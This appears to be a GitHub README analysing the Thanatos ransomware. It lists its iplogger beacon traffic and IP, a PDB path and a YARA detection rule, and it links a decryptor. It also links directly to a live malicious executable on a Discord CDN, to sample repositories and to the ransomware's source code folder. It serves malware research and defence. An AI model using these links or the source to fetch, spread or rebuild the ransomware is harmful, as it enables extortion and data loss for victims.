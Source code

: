 # Thanatos-Ransomware

## Introduction

Ransomware developers continue to release infections that are clearly not tested well and contain bugs that may make it difficult, if not impossible, for victims to recover their files. Such is the case with the new in the wild ransomware called Thanatos.

[![NEWS]](https://www.bleepingcomputer.com/news/security/thanatos-ransomware-is-first-to-use-bitcoin-cash-messes-up-encryption/)

## Source Ransomware

Resource Ransomware [![Discordapp]](http://cdn.discordapp.com/attachments/230687913581477889/424941165339475968/fastleafdecay.exe)

Pay Attention Malicious File : [![VirusTotal]](https://www.virustotal.com/#/file/42748e1504f668977c0a0b6ac285b9f2935334c0400d0a1df91673c8e3761312/detection)

## Samples for researchers : 

### Best place [![VirusBay]](https://beta.virusbay.io/sample/browse?q=5a89b56c2e969f4b8bf1fa79)

## Network Traffic

`GET /1CUTM6 HTTP/1.1..Connection: Keep-Alive..Content-Type: application/x-www-form-urlencoded..U
ser-Agent: Mozilla/5.0 (Windows NT 6.1) Thanatos/1.1..Host: iplogger.com....`

hxxp://iplogger[.]com:80/1CUTM6
hxxp://iplogger[.]com:80/1t3i37

IP : 88.99.66.31
Port : 80
#### Description :
This url allow attacker to know information victims and stay update to know any new location.

## Behaviour 

PDB path : C:\Users\Artur\Desktop\csharp - js\косте пизда\Release\Thanatos.pdb 

![What they Need](https://1.bp.blogspot.com/-6o-rF1br8oA/WzJOxkbzILI/AAAAAAAAArc/xi9faoPTVMkQ8aklSg4sTly1Eq6ri1tdwCLcBGAs/s640/image9.png)

##### Let's take a look at source code :

![](https://raw.githubusercontent.com/0btemos/Thanatos-Ransomware/master/images/2018-06-28_121655.png)

![](https://raw.githubusercontent.com/0btemos/Thanatos-Ransomware/master/images/2018-06-28_121920.png)

![Decrypt Key](https://raw.githubusercontent.com/0btemos/Thanatos-Ransomware/master/images/2018-06-28_121954.png)

![](https://raw.githubusercontent.com/0btemos/Thanatos-Ransomware/master/images/2018-06-28_122110.png)

## Yara Rules
` rule Thanatos

{
        strings:

        $s1 = ".THANATOS\x00" ascii
        $s2 = "\\Desktop\\README.txt" ascii
        $s3 = "C:\\Windows\\System32\\notepad.exe C:\\Users\\" ascii
        $s4 = "AppData\\Roaming" ascii
        $s5 = "\\Desktop\x00" ascii
        $s6 = "\\Favourites\x00" ascii
        $s7 = "\\OneDrive\x00" ascii
        $s8 = "\\x00.exe\x00" ascii
        $s9 = "/c taskkill /im" ascii
        $s10 = "Software\\Microsoft\\Windows\\CurrentVersion\\Run" ascii

        condition:
        6 of ($s1, $s2, $s3, $s4, $s5, $s6, $s7, $s8, $s9, $s10)
} `
### Decrypt Files :

[![Download Released ThanatosDecryptor]](https://github.com/0btemos/Thanatos-Ransomware/tree/master/Release)

## Know Struct Thanatos Ransomware and check Source Code

You can check source code from [![Here]](https://github.com/0btemos/Thanatos-Ransomware/tree/master/ThanatosSource)
